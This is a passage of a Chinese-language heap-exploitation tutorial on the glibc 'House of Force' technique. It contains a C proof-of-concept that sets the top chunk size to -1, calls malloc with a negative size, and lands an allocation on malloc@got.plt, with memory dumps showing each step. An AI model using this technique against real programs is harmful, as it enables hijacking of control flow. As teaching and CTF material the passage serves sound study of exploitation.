 那么只要我们能够将top_chunk的size域改为一个很大的值，如-1（验证时对size转换成了unsigned long，改为-1即可得到最大值），那么无论malloc什么值可以通过验证。

之后可以看到glibc将top指针更新为了remainder，而remainder是chunk_at_offset(victim, nb)，即victim+nb。

由条件2，nb（也即malloc的size）值我们可以随意控制，因此可以随意控制top_chunk的地址，而下一次进行malloc时就会分配top_chunk处的空间，这就达到了任意地址写的功能。

但是与此同时，top chunk的size也会更新。

```c
victim = av->top;
size   = chunksize(victim);
remainder_size = size - nb;
set_head(remainder, remainder_size | PREV_INUSE);
```

所以，如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE。

## 0x03样例

#### 样例一

该样例的目标是通过HOF来篡改malloc@got.plt实现劫持程序流程。

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

首先分配了0x10的块

```assembly
0x602000:   0x0000000000000000  0x0000000000000021 <=== ptr
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk
0x602030:   0x0000000000000000  0x0000000000000000
```

之后将top chunk的size改为-1（0xffffffffffffffff），在题目中，这一步可以通过堆溢出来实现。

```assembly
0x602000:   0x0000000000000000  0x0000000000000021 <=== ptr
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0xffffffffffffffff <=== top chunk size域被更改
0x602030:   0x0000000000000000  0x0000000000000000
```

此时top chunk的指针仍在0x602020，只有进行malloc(-4120)

top chunk的指针变为了0x602020+(-4112) = 0x601010。

而在编译后的程序中0x601020是 `malloc@got.plt`的地址，因此下次malloc分配chunk的时候，就分配到了 `malloc@got.plt`的地址，从而可以修改该处的值。
